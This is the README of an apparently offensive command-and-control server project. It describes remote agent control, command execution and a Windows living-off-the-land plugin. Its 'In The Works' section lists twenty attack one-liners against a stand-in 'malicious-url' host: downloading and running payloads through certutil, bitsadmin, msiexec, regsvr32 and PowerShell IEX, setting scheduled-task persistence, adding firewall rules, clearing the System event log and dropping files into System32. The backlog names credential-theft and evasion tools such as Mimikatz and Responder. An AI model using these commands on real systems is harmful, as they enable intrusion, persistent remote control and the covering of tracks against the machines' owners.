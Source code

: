 # C2 Server

## Overview

This repository serves as a educational reference and contains the implementation of a Command and Control (C&C) server used for managing and controlling remote clients. The server facilitates communication with these clients, allowing for command execution, data retrieval, and other operations as needed.

## Features

- **Agent Management**: Registering, managing, and communicating with remote clients.
- **Command Execution**: Sending commands to clients and receiving responses.
- **Data Exchange**: Transferring files, data, or payloads securely between server and clients.
- **Security**: Implementing encryption and secure communication channels.
- **Scalability**: Supporting multiple clients simultaneously and efficiently.
- **Pluggable**: Support for additional commands with plugins.

## Setup Instructions

1. **Prerequisites**:
   - Node.js 18+ and npm installed.

2. **Installation**:
   ```bash
   git clone <repository_url>
   cd w0lf-c2
   npm install

## Features

- Client was built on six diffent languages (c, rust, powershell, python, js, go)
- Multiple client session management
- Extended features through plugins.
- Server and client logging
- Plugins:
   - Client Manager: A client plugin to manage the remote client.
   - Cmd.exe Binaries: A client plugin that provides native cmd.exe commands.
   - File Manager: A client plugin to manage and manipulate files and folders.
   - System Profiling: A client plugin to profile the system.
   - Living Off The Land Binaries: A client plugin that provides Windows LOLBin commands.
   - Screensaver: A server plugin to show a couple screensavers.

## In The Works

- Additional communication channels (http2, udp, tls)
- Add more LOLBas commands
   ```bash
   # 1. certutil.exe for Downloading Files
   certutil.exe -urlcache -split -f http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 2. regsvr32.exe for Script Execution
   regsvr32.exe /s /n /u /i:http://malicious-url/script.sct scrobj.dll
   # 3. wmic.exe for Remote Command Execution
   wmic.exe process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command 'IEX ((New-Object Net.WebClient).DownloadStrin ('http://malicious-url/payload.ps1'))'"
   # 4. rundll32.exe for DLL Execution
   rundll32.exe C:\Path\To\Malicious.dll,EntryPoint
   # 5. schtasks.exe for Task Scheduling
   schtasks.exe /create /tn "UpdateTask" /tr "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1" /sc daily /st 12:00
   # 6. at.exe for Task Scheduling (Legacy)
   at.exe 12:00 /every:M,T,W,Th,F,Sa,Su "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\Payload.ps1"
   # 7. msiexec.exe for MSI Execution
   msiexec.exe /quiet /i http://malicious-url/payload.msi
   # 8. scrcons.exe for Script Execution
   scrcons.exe C:\Path\To\Script.vbs
   # 9. xcopy.exe for File Copying
   xcopy /Y C:\Path\To\Malicious.exe C:\Windows\System32\Malicious.exe
   # 10. whoami.exe for User Information
   whoami.exe /all
   # 11. fsutil.exe for File System Utility
   fsutil file createnew C:\Path\To\Malicious.txt 1000
   # 12. wevtutil.exe for Event Log Management
   wevtutil.exe cl System
   # 13. certreq.exe for Certificate Requests
   certreq.exe -new Malicious.inf
   # 14. typeperf.exe for Performance Data
   typeperf "\Processor(_Total)\% Processor Time"
   # 15. bitsadmin.exe for Background File Transfers
   bitsadmin.exe /transfer "jobname" /download /priority normal http://malicious-url/payload.exe C:\Windows\Temp\payload.exe
   # 16. netsh.exe for Network Shell
   netsh advfirewall firewall add rule name="MaliciousRule" dir=in action=allow program="C:\Path\To\Malicious.exe" enable=yes
   # 17. cscript.exe for Script Execution
   cscript C:\Path\To\Malicious.vbs
   # 18. icacls.exe for ACL Management
   icacls C:\Path\To\Malicious.exe /grant Everyone:(RX)
   # 19. wbadmin.exe for Backup Operations
   wbadmin start backup -backupTarget:\\localhost\Backup -include:C:\Path\To\Malicious.exe
   # 20. xcopy.exe with /b Switch for Payload Dropping
   xcopy /b Malicious.exe C:\Windows\System32\LegitFile.dll

## Backlog
Other ideas and things on the back burner:

- Net Commands: Used for network reconnaissance and information gathering.
- netstat: Displays active network connections, listening ports, and related information.
- net: Used for various network operations such as user authentication, shares, sessions, and more.
- arp: Displays and modifies the ARP cache.

- PowerShell Commands: PowerShell provides extensive capabilities for attackers, including scripting, execution of malicious payloads, and interacting with system APIs.
- Invoke-Mimikatz: Executes Mimikatz, a tool for retrieving credentials from memory.
- Invoke-Obfuscation: Obfuscates malicious PowerShell scripts to evade detection.
- Invoke-Shellcode: Executes shellcode in memory without writing to disk.

- Enumeration Tools: Tools used to gather information about the compromised system and the network.
- Nmap: A powerful network scanner used for host discovery, port scanning, and service enumeration.
- enum4linux: Enumerates information from Windows and Samba systems, such as shares, users, groups, policies, and more.
- Responder: Listens for and captures NetNTLMv1/v2 authentication requests, used for credential theft.

- Exploitation Frameworks: Frameworks used to exploit vulnerabilities and gain unauthorized access.
- Metasploit Framework: A popular exploitation framework that includes a large collection of exploits, payloads, and post-exploitation modules.
- Empire: A post-exploitation framework that allows attackers to maintain persistence, escalate privileges, and exfiltrate data.

- Privilege Escalation Tools: Tools and techniques used to escalate privileges on compromised systems.
- PowerUp: PowerShell script that checks for common Windows privilege escalation vectors.
- Windows Exploit Suggester: Python script that suggests potential exploits for Windows systems based on OS version and patch level.
